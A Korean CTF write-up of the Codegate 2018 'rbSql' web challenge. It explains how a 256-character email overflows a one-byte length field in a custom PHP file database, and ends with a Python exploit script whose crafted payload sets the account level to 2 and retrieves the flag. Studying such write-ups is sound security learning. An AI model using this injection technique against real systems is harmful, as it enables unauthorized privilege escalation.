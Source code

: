 # [WEB] Codegate 2018 Quals - rbSql

## Description

Just Source File

## Analysis

이 문제도 소스코드가 주어졌다.

소스코드를 읽어보면 알다시피 파일 형태로 저장되는 Custom Database 문제이다.

구축을 해볼려다가 에러를 못잡아서 구축을 포기하고 그냥 문제를 풀기로 했다.

index.php에서의 역할은 다음과 같다.

*  join : create -> insert
*  login : select
*  me : 로그인 된 계정의 lvl이 2일 경우 Flag get!

이 외의 기능이 없다.

딱봐도 insert로 무언가를 해야 할 것 같은 문제이다.

database를 핸들링 하는 코드에서 취약점이 발생하는 케이스는 insert이다.

```Php
/*
	dbconn.php
*/
define("STR", chr(1), true);
define("ARR", chr(2), true);
define("SCHEMA", "./rbSql/rbSqlSchema", true);

function rbSql($cmd,$table,$query){
	switch($cmd){
	case "create":
		// ...

	case "select":
        // ...

	case "insert":
		$filePath = rbGetPath($table);
		if(!$filePath) return "Error4";
		$result = rbReadFile($filePath);
		if(count($result[2]) != count($query)) return "Error5";
		$result[count($result)] = $query;
		rbWriteFile($filePath,$result);
		break;

	case "delete":
		// ...
	default:
		return "Error1";
		break;
	}
}
function rbPack($data){
	$rawData = "";
	if(is_string($data)){
		$rawData .= STR . chr(strlen($data)) . $data;
	}
	elseif(is_array($data)){
		$rawData .= ARR . chr(count($data));
		for($idx=0;$idx<count($data);$idx++) $rawData .= rbPack($data[$idx]);
	}
	var_dump($rawData);
	return $rawData;
}
function rbWriteFile($filePath,$fileContent){
	$opened = fopen($filePath, "w") or die("Unable to open file!");
	fwrite($opened,rbPack($fileContent));
	fclose($opened);
	clearstatcache();
}
```

rbPack 함수를 보면 재귀형태로 구현되어 있으며 타입이 Array인지 String인지를 파악하여 rawData를 만들어준다.

DB는 아래의 형태로 구성된다.

```
00000000: 0203 010c 6d65 6d62 6572 5f73 6870 696b  ....member_shpik
00000010: 011e 2e2f 7262 5371 6c2f 7262 5371 6c5f  .../rbSql/rbSql_
00000020: 6238 6634 3864 3361 6665 3665 6433 3436  b8f48d3afe6ed346
00000030: 0205 0102 6964 0104 6d61 696c 0102 7077  ....id..mail..pw
00000040: 0102 6970 0103 6c76 6c                   ..ip..lvl
```

String의 경우[\x01 + String Length + String Value]이고 Array의 경우 [\x02 + Array 길이 + 재귀] 형태로 저장되는 것을 알 수 있다.

여기서 취약점이 하나 발생하며, index.php의 join의 check부분을 보자.

```Php
if(($uid) && ($upw) && ($umail)){
      if(strlen($uid) < 3) error("id too short");
      if(strlen($uid) > 16) error("id too long");
      if(!ctype_alnum($uid)) error("id must be alnum!");
      if(strlen($umail) > 256) error("email too long");
      include "dbconn.php";
      $upw = md5($upw);
      $uip = $_SERVER['REMOTE_ADDR'];
      if(rbGetPath("member_".$uid)) error("id already existed");
      $ret = rbSql("create","member_".$uid,["id","mail","pw","ip","lvl"]);
      if(is_string($ret)) error("error");
      $ret = rbSql("insert","member_".$uid,[$uid,$umail,$upw,$uip,"1"]);
      if(is_string($ret)) error("error");
      exit("<script>location.href='./?page=login';</script>");
    }
```

umail의 길이가 256까지 가능한데, chr(256)의 경우 \x00의 값이 나온다.

즉, umail의 길이를 256자로 주면 우리가 원하는 값으로 Insert할 수 있다는 것이다!

## Exploit

### Insert SQL Injection

위에서 설명한 논리적인 오류(Logical Error)로 인해 email의 길이를 0으로 만들어 버릴수가 있다.

database 안에 들어가는 컬럼의 순서는 id umail pw ip lvl 이므로 형태에 맞춰서 생성해주자.

```python
import urllib
import urllib2

url = "http://52.78.188.150/rbsql_4f6b17dc3d565ce63ef3c4ff9eef93ad/?page=join_chk"
data = "uid=shpik16&umail=%01%205d93ceb70e2bf5daa84ec3d0cd2c731a%01%0E183.92.253.166%01%012%0aPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPP&upw=s1s1"
req = urllib2.Request(url,data)
res = urllib2.urlopen(req)
print res.read()

'''
FLAG{akaneTsunemoriIsSoCuteDontYouThinkSo?}
'''
```

위 스크립트를 이용해 Join한 후에 me를 들어가면 플래그를 얻을 수 있다.



**FLAG{akaneTsunemoriIsSoCuteDontYouThinkSo?}**


